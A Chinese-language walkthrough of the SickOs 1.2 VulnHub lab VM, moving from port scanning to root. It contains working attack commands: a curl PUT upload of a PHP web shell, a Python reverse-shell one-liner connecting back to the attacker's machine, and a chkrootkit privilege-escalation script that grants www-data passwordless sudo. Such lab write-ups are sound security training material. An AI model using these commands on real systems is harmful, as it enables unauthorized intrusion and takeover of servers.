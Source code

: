 # SickOs 1.2

下载地址：https://download.vulnhub.com/sickos/sick0s1.2.zip

## 实战操作

扫描靶场IP地址：`192.168.32.148`

![image-20220531102836395](../../.gitbook/assets/image-20220531102836395.png)

扫描端口，发现只开启**22**和**80**端口

```
┌──(root💀kali)-[/tmp]
└─# nmap  -sT  -p1-65535 192.168.32.148                                                                              
Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-30 22:30 EDT
Nmap scan report for 192.168.32.148
Host is up (0.00067s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 00:0C:29:3D:60:3D (VMware)

Nmap done: 1 IP address (1 host up) scanned in 104.58 seconds
                                                                     
```

浏览器访问80端口

![image-20220531103338753](../../.gitbook/assets/image-20220531103338753.png)

使用目录扫描器只扫描到**test**目录

![image-20220531103856954](../../.gitbook/assets/image-20220531103856954.png)

通过 curl 检查可用方法时，PUT 方法可用。这可用于上传反向 shell。

```
┌──(root💀kali)-[/tmp]
└─# curl -v -X OPTIONS  http://192.168.32.148/test/
*   Trying 192.168.32.148:80...
* Connected to 192.168.32.148 (192.168.32.148) port 80 (#0)
> OPTIONS /test/ HTTP/1.1
> Host: 192.168.32.148
> User-Agent: curl/7.81.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< DAV: 1,2
< MS-Author-Via: DAV
< Allow: PROPFIND, DELETE, MKCOL, PUT, MOVE, COPY, PROPPATCH, LOCK, UNLOCK
< Allow: OPTIONS, GET, HEAD, POST
< Content-Length: 0
< Date: Tue, 31 May 2022 10:40:36 GMT
< Server: lighttpd/1.4.28
< 
* Connection #0 to host 192.168.32.148 left intact

```

通过 PUT 请求利用文件上传，使用 curl 上传包含以下代码的 PHP 文件，这将允许我们远程执行代码：

```
┌──(root💀kali)-[/tmp]
└─# curl -v -X PUT -d '<?php echo system($_REQUEST['cmd']);?>' http://192.168.32.148/test/shell.php
*   Trying 192.168.32.148:80...
* Connected to 192.168.32.148 (192.168.32.148) port 80 (#0)
> PUT /test/shell.php HTTP/1.1
> Host: 192.168.32.148
> User-Agent: curl/7.81.0
> Accept: */*
> Content-Length: 36
> Content-Type: application/x-www-form-urlencoded
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 201 Created
< Content-Length: 0
< Date: Tue, 31 May 2022 10:41:40 GMT
< Server: lighttpd/1.4.28
< 
* Connection #0 to host 192.168.32.148 left intact
```

![image-20220531104217544](../../.gitbook/assets/image-20220531104217544.png)

通过 cmd 参数执行 python 反向 shell：

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.32.130",7777));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

仍然没有收到反向shell。一段时间后，**使用端口 443 成功**。这表明 iptables/firewall 仅允许在选定端口上的出站流量。

![image-20220531105959779](../../.gitbook/assets/image-20220531105959779.png)

查看Linux发行版和内核

```

www-data@ubuntu:/var/www/test$ uname -a
uname -a
Linux ubuntu 3.11.0-15-generic #25~precise1-Ubuntu SMP Thu Jan 30 17:42:40 UTC 2014 i686 i686 i386 GNU/Linux
www-data@ubuntu:/var/www/test$ cat /etc/*-release
cat /etc/*-release
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=12.04
DISTRIB_CODENAME=precise
DISTRIB_DESCRIPTION="Ubuntu 12.04.4 LTS"
NAME="Ubuntu"
VERSION="12.04.4 LTS, Precise Pangolin"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu precise (12.04.4 LTS)"
VERSION_ID="12.04"

```

查看定时计划，找到**chkrootkit**的计划任务

```
www-data@ubuntu:/var/www/test$ cat /etc/cron.daily/chkrootkit
cat /etc/cron.daily/chkrootkit
#!/bin/sh

set -e

CHKROOTKIT=/usr/sbin/chkrootkit
CF=/etc/chkrootkit.conf
LOG_DIR=/var/log/chkrootkit

if [ ! -x $CHKROOTKIT ]; then
  exit 0
fi

if [ -f $CF ]; then
    . $CF
fi

if [ "$RUN_DAILY" = "true" ]; then
    if [ "$DIFF_MODE" = "true" ]; then
                                eval $CHKROOTKIT $RUN_DAILY_OPTS > $LOG_DIR/log.today.raw 2>&1
                                # the sed expression replaces the messages about /sbin/dhclient3 /usr/sbin/dhcpd3
                                # with a message that is the same whatever order eth0 and eth1 were scanned
                                sed -r -e 's,eth(0|1)(:[0-9])?: PACKET SNIFFER\((/sbin/dhclient3|/usr/sbin/dhcpd3)\[[0-9]+\]\),eth\[0|1\]: PACKET SNIFFER\([dhclient3|dhcpd3]{PID}\),' \
                                -e 's/(! \w+\s+)[ 0-9]{4}[0-9]/\1#####/' $LOG_DIR/log.today.raw > $LOG_DIR/log.today
        if [ ! -f $LOG_DIR/log.expected ]; then
                                                echo "ERROR: No file $LOG_DIR/log.expected"
                                                echo "This file should contain expected output from chkrootkit"
                                                echo
                                                echo "Today's run produced the following output:"
                                                echo "--- [ BEGIN: cat $LOG_DIR/log.today  ] ---"
                                                cat $LOG_DIR/log.today
                                                echo "--- [ END: cat $LOG_DIR/log.today ] ---"
                                                echo
                                                echo "To create this file containing all output from today's run, do (as root)"
                                                echo "# cp -a $LOG_DIR/log.today $LOG_DIR/log.expected"
                                                echo "# (note that unedited output is in $LOG_DIR/log.today.raw)"
                                elif ! diff -q $LOG_DIR/log.expected $LOG_DIR/log.today > /dev/null 2>&1; then
                                                echo "ERROR: chkrootkit output was not as expected."
                                                echo
                                                echo "The difference is:"
                                                echo "---[ BEGIN: diff -u $LOG_DIR/log.expected $LOG_DIR/log.today ] ---"
                                                diff -u $LOG_DIR/log.expected $LOG_DIR/log.today || true
                                                echo "---[ END: diff -u $LOG_DIR/log.expected $LOG_DIR/log.today ] ---"
                                                echo
                                                echo "To update the expected output, run (as root)"
                                                echo "#  cp -a -f $LOG_DIR/log.today $LOG_DIR/log.expected"
                                                echo "# (note that unedited output is in $LOG_DIR/log.today.raw)"
        fi
    else
        eval $CHKROOTKIT $RUN_DAILY_OPTS
    fi
fi

```

查看exp信息

```
┌──(root💀kali)-[/opt]
└─# searchsploit -x linux/local/33899.txt
```

![image-20220531111228156](../../.gitbook/assets/image-20220531111228156.png)

因此，如果我们创建一个 bash 脚本并将其放在目录中调用的文件`update`中`/tmp`并设置其可执行权限，它将以 root 身份运行。

```
echo 'chmod 777 /etc/sudoers && echo "www-data ALL=NOPASSWD: ALL" >> /etc/sudoers && chmod 440 /etc/sudoers' > /tmp/update
chmod 777 /tmp/update
sudo su
```

![image-20220531111644163](../../.gitbook/assets/image-20220531111644163.png)
